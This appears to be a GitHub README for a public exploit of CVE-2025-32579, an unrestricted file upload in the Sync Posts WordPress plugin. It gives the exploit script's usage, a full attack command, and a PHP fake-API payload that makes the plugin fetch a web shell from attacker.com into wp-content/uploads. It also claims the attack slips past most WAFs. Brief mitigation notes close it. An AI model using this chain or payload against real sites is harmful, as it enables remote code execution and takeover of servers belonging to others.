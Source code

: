 
# ⚠️ CVE-2025-32579 - Critical RCE via Sync Posts Plugin (WordPress)

> 🔥 Discovered & Exploited by: **Nxploited (Khaled Alenazi)**  
> 📦 Affects: Sync Posts <= 1.0  
> 🧨 CVSS Score: **9.9 CRITICAL**  
> 📁 CVSS Vector: `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`

---

## 🧠 Vulnerability Overview

The **Sync Posts** WordPress plugin by SoftClever Limited is vulnerable to an **Unrestricted File Upload** vulnerability that allows **authenticated attackers** to upload and execute **arbitrary PHP files** (such as web shells) on the server.

### 🔓 Root Cause:
- The plugin accepts a `website_url` which returns JSON posts.
- It **blindly fetches images** from the post contents without validation.
- No file type, mime-type, or path restriction is applied.
- All images (even PHP files) are downloaded and stored inside `wp-content/uploads`.

---

## 🚨 Why It’s Dangerous

- ✅ **Remote Code Execution (RCE)**
- ✅ Uploads web shells directly to server
- ✅ Requires **minimal privileges** (Authenticated user only)


---

## ⚙️ Script Description (Exploit)

The exploit script automates the full chain:

1. 📥 **Logs into WordPress** using provided credentials
2. 🧠 **Generates fake API PHP** returning JSON post with a shell as `<img src='...'>`
3. 📡 **Sends malicious `website_url`** to `admin-ajax.php?action=sync_posts`
4. 💣 Forces the plugin to fetch and save the shell in `/uploads/`
5. ✅ **No need for Referer** or nonce — session cookie is enough

---
```bash
usage: CVE-2025-32579.py [-h] -u URL -un USERNAME -p PASSWORD -ws WEBSITE -shell WEBSHELL

Exploit For CVE-2025-32579 Sync Posts # By: Nxploited ( Khaled Alenazi )

options:
  -h, --help            show this help message and exit
  -u, --url URL         Target WordPress URL (e.g., http://target.com/wordpress)
  -un, --username USERNAME
                        Username to login
  -p, --password PASSWORD
                        Password to login
  -ws, --website WEBSITE
                        URL to fake API (e.g., http://attacker.com/Khaled_alenazi.php)
  -shell, --webshell WEBSHELL
                        Web shell URL used inside the fake API (can be a test image)
                                                                                       

```
## 💻 Usage Instructions

### 📌 Command Format:

```bash
python3 CVE-2025-32579.py -u http://target/wordpress -un admin -p pass123 -ws http://attacker.com/Khaled_alenazi.php -shell http://attacker.com/shell.php
```

### ⚙️ Arguments:

| Flag | Description |
|------|-------------|
| `-u, --url`         | Target WordPress URL |
| `-un, --username`   | WordPress username (admin) |
| `-p, --password`    | WordPress password |
| `-ws, --website`    | URL to malicious PHP file that returns fake post JSON |
| `-shell, --webshell`| The actual shell file to inject via `<img src=...>` |

You can also use a dummy image instead of a real shell for testing:
```bash
--webshell https://via.placeholder.com/1x1.jpg
```

---

## 🧪 Example Fake API Output

This is the response returned by `Khaled_alenazi.php`:

```php
<?php
header('Content-Type: application/json');
echo json_encode([
  [
    "id" => 1,
    "title" => ["rendered" => "Nxploited"],
    "content" => [
      "rendered" => "<img src='http://attacker.com/shell.php'>"
    ]
  ]
]);
?>
```

---

## 🔒 Important Notes

- ✅ **Referer not required**
- ❗ Only the `wordpress_logged_in_` cookie is used
- ❌ Not exploitable by unauthenticated users
- ✅ Works even if admin dashboard is hidden (AJAX is public under login)
- 🛡️ Easily missed by most WAFs

---

## 🛠️ Fix / Mitigation

- Restrict `website_url` access to internal domains or whitelisted hosts
- Validate image extensions & content types
- Avoid parsing third-party JSON without sanitization

---

## 🧷 Reference

> CVE: [CVE-2025-32579](https://nvd.nist.gov/vuln/detail/CVE-2025-32579)    
> Exploit By Nxploited (Khaled Alenazi)

---
